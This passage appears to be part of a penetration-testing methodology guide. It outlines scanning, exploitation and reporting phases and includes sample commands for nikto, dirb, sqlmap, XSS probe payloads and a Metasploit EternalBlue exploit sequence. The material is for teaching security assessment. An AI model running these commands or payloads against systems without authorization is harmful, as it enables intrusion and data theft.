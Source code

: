 #### Automated Scanning
```bash
# Web application scanning
nikto -h https://target.com
dirb https://target.com

# Network vulnerability scanning
nessus_scan target.com
openvas_scan target.com
```

#### Manual Testing
- Code review
- Configuration analysis
- Business logic flaws
- Authentication mechanisms

![Vulnerability Assessment Flow](vuln-assessment.png)

### 4. Exploitation

Attempt to exploit identified vulnerabilities:

#### Web Application Exploitation
```bash
# SQL injection testing
sqlmap -u "https://target.com/page?id=1" --dbs

# XSS testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```

#### Network Exploitation
```bash
# Metasploit framework
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
exploit
```

#### Post-Exploitation
- Privilege escalation
- Lateral movement
- Data exfiltration
- Persistence mechanisms

### 5. Reporting

Document findings and provide remediation guidance:

#### Report Structure
1. **Executive Summary**
2. **Technical Findings**
3. **Risk Assessment**
4. **Remediation Recommendations**
5. **Appendices**
